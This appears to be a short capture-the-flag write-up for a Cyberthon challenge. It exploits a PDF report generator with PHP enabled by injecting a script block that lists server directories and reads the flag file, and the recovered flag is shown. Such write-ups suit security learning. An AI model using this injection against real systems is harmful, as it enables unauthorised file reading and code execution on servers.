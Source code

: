 ```yaml
---
ai_date: '2025-04-27 05:11:55'
ai_summary: Flag found via PHP injection, revealing file contents
ai_tags:
- php
- rce
- xss
created: 2024-06-11T01:33
updated: 2024-06-11T01:34
---
```


> We found a site which APOCALYPSE uses for report generation.
>
> Server seems secured! Obtain the flag residing in the server.
> The URL for this challenge:
> http://chals.cyberthon22f.ctf.sg:40101

According to the Github Issue, to add page numbers, php is enabled, so...

By using PHP injection

We get our flag

```html
Hello World
<script type="text/php">
$pdf->text(100, 150, json_encode(scandir('.')), $fontMetrics->getFont("Arial"), 10, array(0, 0, 0));
$pdf->text(100, 160, json_encode(scandir('..')), $fontMetrics->getFont("Arial"), 10, array(0, 0, 0));
$pdf->text(100, 170, json_encode(scandir('reports')), $fontMetrics->getFont("Arial"), 10, array(0, 0, 0));
$pdf->text(100, 200, file_get_contents("reports/266AB791560203B1D926F59E814ED4F820184D74.flag"), $fontMetrics->getFont("Arial"), 10, array(0, 0, 0));
</script>
```

![Screenshot 2022-05-07 at 10.04.19 AM](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718084090/2024/06/013ab3fb99578922c21d2147e2d7a71c.png)

`Cyberthon{RCE_is_NOT_everything_!}`